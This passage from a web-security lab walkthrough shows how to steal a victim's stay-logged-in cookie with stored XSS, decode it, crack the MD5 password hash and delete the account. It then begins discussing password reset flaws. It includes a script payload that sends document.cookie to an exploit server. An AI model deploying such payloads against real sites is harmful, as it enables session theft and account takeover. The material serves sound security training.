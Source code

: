 This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password.

**Solution**
1. With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the *stay-logged-in* cookie is Base64 encoded.
2. In the **Proxy > HTTP history** tab, go to the **Response** to your login request and highlight the *stay-logged-in* cookie, to see that it is constructed as follows:

    ``` username+':'+md5HashOfPassword ```

3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:

    ```html
    <script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
    ```

6. On the exploit server, open the access log. There should be a GET request from the victim containing their *stay-logged-in* cookie.
7. Decode the cookie in Burp Decoder. The result will be:

    ``` carlos:26323c16d5f4dabff3bb136f2460a943 ```

8. Copy the hash and paste it into a search engine. This will reveal that the password is *onceuponatime*.
9. Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

## Resetting user passwords

In practice, it is a given that some users will forget their password, so it is common to have a way for them to reset it. As the usual password-based authentication is obviously impossible in this scenario, websites have to rely on alternative methods to make sure that the real user is resetting their own password. For this reason, the password reset functionality is inherently dangerous and needs to be implemented securely.
There are a few different ways that this feature is commonly implemented, with varying degrees of vulnerability.

## Sending passwords by email

The security relies on either the generated password expiring after a very short period, or the user changing their password again immediately. Otherwise, this approach is highly susceptible to man-in-the-middle attacks.

## Resetting passwords using a URL

A more robust method of resetting passwords is to send a unique URL to users that takes them to a password reset page. Less secure implementations of this method use a URL with an easily guessable parameter to identify which account is being reset, for example:
